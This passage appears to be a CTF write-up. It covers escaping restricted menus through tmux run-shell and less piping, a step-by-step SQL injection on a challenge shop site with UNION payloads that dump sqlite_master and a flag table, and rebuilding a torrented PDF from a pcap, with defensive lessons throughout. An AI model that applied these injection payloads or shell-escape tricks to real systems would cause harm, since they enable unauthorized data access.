

Ok, so it seems like tmux commands work! But, trying to open a new shell just
drops you back into the same menu again, instead of opening an actual shell.
Fortunately for us, tmux has multiple ways to execute commands! Let's go through
them: (all of these commands are prefixed by `ctrl + b` as that puts tmux into
command mode)

- `:split-window '/bin/bash'` - nope, drops you back into the main window again.
- `:split-window '/bin/sh'` - even the sh shell puts you back to the main
  window.

So, if we can't get access to an actual shell, lets just try something simpler:
running a single command:

**`:run-shell 'ls -lah'`**

```
total 80K                                                                  [0/0]
dr-xr-xr-x    1 root     root        4.0K Sep 27 14:22 .
drwxr-xr-x    1 root     root        4.0K Sep 27 16:31 ..
-r-xr-sr-x    1 root     flag-read   18.1K Sep 27 14:22 cat-flag
-r-xr-xr-x    1 root     root        5.1K Sep 23 20:52 challenge.sh
-r-xr-x---    1 root     root       18.2K Sep 27 14:22 drop-perms
-r-xr-xr-x    1 root     root         367 Sep 23 20:52 fake-term.sh
-r--r-----    1 root     flag-read     82 Sep 23 20:52 flag.txt
-r--r--r--    1 root     root        5.5K Sep 23 20:52 system_logs.txt
```

Wow, that worked! We can individually run commands using tmux's `run-shell`
command. In the directory listing there's a `cat-flag` binary. Just run that
with `:run-shell './cat-flag'` and we get the flag!

**So, lessons learned?**

Before using an application in production, make sure you fully understand all of
it's features! Tmux here might seem like a good idea since it lets you set
custom title bars and set other decorative features, but it does way more than
just decoration!

# Space Is Less Than Ideal

<p>
  <small>_[↩ Jump to table of contents](#table-of-contents)_</small>
</p>

> I think i did a thing.
>
> I may have accessed a satellite.
>
> I can access the logs anyhow. I can't seem to access anything else.
>
> I know I've seen that type of log viewer before, but something seems...
> different... about it.
>
> Well you know the expression. Less is more!
>
> socat file:`tty`,raw,echo=0 TCP:chal.sunshinectf.games:25003

This one is very similar to the previous one, dropping us into a satellite menu,
but missing is any hint of tmux. Reading the problem statement, it makes a
comment about the log viewer and the expression "less is more!".



In many Linux distributions, `less` and `more` are both commands to paginate
files, so you can scroll through them. If you were to `cat` a really long file,
all the text would zoom past your terminal screen and you'll only get to see the
bottom. Less and more let you scroll and jump through the files.

But the `less` command can do way more than that. If you press `v` for example,
it will open the file for you in an editor. If you type `:!` you can run
commands (i.e. `:!ls -lah`).



Unfortunately, trying to execute commands that way doesn't work! Instead, it
closes the less menu temporarily and shows "This account is not available".

Hmm, there must be another way. Turns out, yes, via piping.

Piping refers to redirecting the output of one command or file into another,
like passing a paper along between different commands. In less, you can pipe the
contents of a portion of the buffer (aka a selection of text) into a file or
into another command. This is useful if you want to save a portion of a long
file into another file.

The procedure goes like this:

1. Create a mark named `a` (can be any letter) using `ma`.
2. Move somewhere else. All text between that mark and your new location will be
   selected.
3. You can now pipe (pass) this content to another command using the `|` key,
   for example: `|a wc -l`. (`a` here denotes that we named the mark "a").


The `wc -l` command is supposed to count the number of lines when passed text,
but the terminal output shows nothing... Strange. The 'done' message at the
bottom was encouraging, suggesting the command ran even though we couldn't see
the output. It's likely that the output of the command went to the standard
output, instead of being passed back to less.

If we recall, when we tried to run commands using `:!command`, it closed out of
less to show us the message. If we use that here, and just run anything, we can
temporarily exit less to see the standard output.

So, let's try that mark thing again, this time running `|a ls -lah` so we can
see the files in this directory.



There it is! The `wc -l` command we ran earlier, and the output of `ls -lah`.
Again, there's a `cat-flag` command we can run. By running that through the same
method, we can get the flag.

**Lessons learned?**

Again, make sure you fully understand the technology you use when building
applications. Less, on it's own, sounds like a great tool. Instead of having to
write your own software to paginate long files to present to the user, you can
just use one that's built into almost every distribution. But, unlike the name,
`less` does have a lot of features that can potentially be exploited if you're
not careful!

# Can you hEAR me?

<p>
  <small>_[↩ Jump to table of contents](#table-of-contents)_</small>
</p>

> A satellite has fallen from orbit, and miraculously, it is still operational.
> It appears to be running on a RAD-EAR-3 CPU, which is known for its
> reliability in space applications. The satellite has a handful of program
> cartridges that it can swap between (like a jukebox), and one of them is
> labeled "hello". Can you figure out how to run it? We need the satellite's
> serial number!
>
> PEGASUS file for this challenge
>
> - CanYouHearMe.peg
>
> Core PEGASUS v3 files:
>
> - runpeg
> - libear.so
> - libeardbg.so
>
> Documentation for v3:
>
> - EAR_EAR_v3.md
> - PEGASUS.md
>
> How to run a PEGASUS file:
>
> ```
> runpeg <file.peg> [--debug] [--verbose] [--trace]
> ```
>
> There are more options you can find with runpeg --help :)

This one was quite simple, as it was just to test that you have correctly setup
your environment.

```
./runpeg CanYouHearMe.peg
```

And that would give you the flag. For some context, PEGASUS is a custom
instruction set made specifically for this competition. They provided documents
on the ISA including the registers available and the opcodes.

As the competition progressed, the CTF hosts uploaded more PEGASUS challenges,
but at the time that I was solving them, they had not yet released other
challenges.

# Lunar Shop

<p>
  <small>_[↩ Jump to table of contents](#table-of-contents)_</small>
</p>

> We have amazing new products for our gaming service! Unfortunately we don't
> sell our unreleased flag product yet !
>
> Fuzzing is NOT allowed for this challenge, doing so will lead to IP rate
> limiting!
>
> https://meteor.sunshinectf.games

Visiting this site, we see a simple shop site: a list of products, and page for
each product listing it's basic details.

But notice the URL when you visit a product page: `/product?product_id=1`. With
some curiosity, let's see what happens if we input something that's not an
alphanumeric character, like `"`.



Interesting, we get an SQL error. This means the server is vulnerable to an SQL
injection. This basically means we can modify the SQL query however we want.
Given the content on the product page, we can get a sense that the product's SQL
query likely takes the form of:

```sql
SELECT
  id, name, description, price
FROM
  products
WHERE
  id = {user input here} AND released = 1
LIMIT 1;
```

Of course, we don't actually know the column names or the table name, but we can
guess. Let's try finding the flag by searching through the table for anything
with `sun{` in the description (since the format of the CTF flags for this
competition are `sun{flag_secret_here}`).

We can do this by crafting an SQL query like this:

```sql
9999 OR description LIKE '%sun{%' --
```

Since the server doesn't sanitize the input, this will directly get interpolated
to:

```sql
SELECT
  id, name, description, price
FROM
  products
WHERE
  id = 9999 OR description LIKE '%sun{%' --
LIMIT 1;
```

Testing that out, we get



Well... lets try a few different combinations to see if we can uncover anything:

- `9999 OR name LIKE '%flag%' --` nothing
- `9999 OR name LIKE '%sun%' --` still nothing...
- `9999 OR 1=1 LIMIT 99999 --` maybe we can list them all out? no.. didn't work.
- `9999 OR name LIKE '%flag%' --` no results once again

Based on the hint, we know that the flag is an unreleased product. Let's see if
we can filter for that with:

```sql
9999 OR released = 0 --
```

Here, I just took a wild guess with `released` being the name of the column.
That guess lands short, with an error saying this column does not exist.

In SQL, we can also use numbers to reference columns, instead of their names.
Let's try to count how many columns this table has.

- `9999 OR 1=1 ORDER BY 01` works
- `9999 OR 1=1 ORDER BY 02` works as well
- `9999 OR 1=1 ORDER BY 03` still works, we have at least 3 columns.
- `9999 OR 1=1 ORDER BY 04` also works
- `9999 OR 1=1 ORDER BY 05` fails!

When ordering by the 5th column, we get

```
[ Error occured. --> 1st ORDER BY term out of range - should be between 1 and 4 ]
```

This error here reveals that we have exactly four columns. Based off the
information on the site, it's likely the ones we identified earlier: id, name,
description, price. That leaves no extra columns to identify mark products as
released or unreleased. That means the unreleased products are likely in a
different table altogether.

This time, lets be a little more methodical with this, rather than
brute-forcing. Many SQL servers have a table that stores the columns for other
tables. In MySQL and PostgreSQL, we can query the `information_schema.tables`
table for this. Let's craft a query to do that using the `UNION` keyword to
combine this query into the existing one:

```sql
99999 UNION SELECT NULL, table_name, NULL, NULL FROM information_schema.tables WHERE table_schema = DATABASE() --
```

And, yet another error:
`[ Error occured. --> no such table: information_schema.tables ]`

Ok, maybe this is a different SQL server type. SQLite uses `sqlite_master`
instead. Let's try that:

```sql
99999 UNION SELECT NULL, name, NULL, NULL FROM sqlite_master WHERE type='table' --
```



There we go! We see that a `flag` table exists. Now, we just need to know what
columns exist in that table so we can query it. Thankfully, sqlite also stores
that in `sqlite_master`:

```sql
99999 UNION SELECT NULL, sql, NULL, NULL FROM sqlite_master WHERE name = 'flag' --
```

With this, we get the result:

```sql
CREATE TABLE flag ( id INTEGER PRIMARY KEY AUTOINCREMENT, flag TEXT NOT NULL UNIQUE )
```

Ok, now we know that there's an `id` column and a `flag` text column. Final step
is to query that:

```sql
99999 UNION SELECT NULL, flag, NULL, NULL FROM flag --
```

And that's it! we get our flag.

**To developers:**

SQL Injections are one of the oldest vulnerabilities on the web. Always use
parameterized queries (prepared statements), which treat user input as data, not
as executable code. This is the most effective way to prevent SQL injection
vulnerabilities.

# Intergalatic Copyright Infringement

<p>
  <small>_[↩ Jump to table of contents](#table-of-contents)_</small>
</p>

> NASA received a notification from their ISP that it appeared that some
> copyrighted files were transferred to and from the ISS (Guess astronauts need
> movies too). We weren't able to recover the all of the files, but we were able
> to capture some traffic from the final download before the user signed off. If
> you can help recover the file that was downloaded perhaps you can shed some
> light on what they were doing?
>
> Attachments: evidence.pcapng

In this problem, there is an attached `.pcapng` file. A pcap is a packet
capture, and we can use a tool like Wireshark to inspect the contents.



What immediately stands out in the list of connections are the rows with
**BitTorrent** label. BitTorrent, and torrenting in general, is a very popular
peer-to-peer file-sharing protocol, often used to share copies of
[Linux ISOs](https://www.reddit.com/r/DataHoarder/comments/79axoj/whats_the_story_of_hoarding_linux_isos/).

The standard BitTorrent protocol includes no encryption, so from this packet
capture, we can reassemble the file being downloaded:

```sh
tshark -r evidence.pcapng -Y 'bittorrent.piece.data' -Tfields -e bittorrent.piece.index -e bittorrent.piece.data > pieces
```

This command uses the
[`tshark`](https://linux.die.net/man/1/tshark#:~:text=Description,the%20packets%20to%20a%20file.)
command to decode the pcap file, select all packets with bittorent data, and
save the index of the piece and the piece's data. When torrenting it is common
to receive chunks of the target file out-of-order, so the index is used to
reconstruct the file in the original order.

This command outputs a list of base64-encoded data chunks, which we redirect
into a pieces file. A final python post-processing script can be used to sort
the chunks by index, and decode the base64 into the original binary.

```py
#!/usr/bin/env python3
import sys

# A dictionary to hold the pieces of the file.
# The keys will be the hex indices and values will be the byte data.
pieces = {}

input_filename = 'pieces'
output_filename = 'torrent.out'

try:
    # The file 'pieces' is expected to contain tab-separated lines:
    # <hex_index>\t<hex_data_with_colons>
    with open(input_filename, 'r') as f:
        for line_num, line in enumerate(f, 1):
            line = line.strip()
            if not line:
                continue

            # Split the line into index and data
            try:
                idx, data = line.split('\t')
            except ValueError:
                print(f"Warning: Skipping malformed line {line_num}: '{line}'")
                continue

            # convert hex to bytes
            hex_string = data.replace(':', '')
            byte_data = bytes.fromhex(hex_string)

            # add the data into the specified index
            if idx in pieces:
                pieces[idx] += byte_data
            else:
                pieces[idx] = byte_data

except FileNotFoundError:
    print(f"Error: The input file '{input_filename}' was not found.")
    sys.exit(1)

if not pieces:
    print("No data was loaded from the input file. Exiting.")
    sys.exit(0)

# Sort the pieces based on their index.
sorted_pieces = sorted(pieces.items(), key=lambda item: int(item[0], 16))

# join the byte data from the sorted pieces into a single bytes object.
final_data = b''.join([data for idx, data in sorted_pieces])

with open(output_filename, 'wb') as f_out: # wb = write binary mode
    f_out.write(final_data)

print(f"Successfully reassembled the data into '{output_filename}'.")
```

With that, we get a `torrent.out` file. Using the linux `file` command, we can
determine the type of file this is:

```sh
❯ file torrent.out
torrent.out: PDF document, version 1.6, 484 page(s)
```

PDF. Open it in the browser, and there's the flag!


**What does this mean?**

When transferring sensitive material, do not use unencrypted file transfer
methods. As you can see, it's trivial for someone in the middle to take a packet
capture and decode whatever is being sent.

# Conclusion

Thanks for reading this far! I had a lot of fun trying these challenges out.
This CTF is my first ever official CTF, and I think I performed pretty well!

A recurring theme was the danger of hidden complexity in seemingly simple tools,
a lesson that applies far beyond CTFs. Commands like `less` and apps like `tmux`
may seem straightforward and single-purpose, but have many fronts that all need
to be checked when building an application around them.
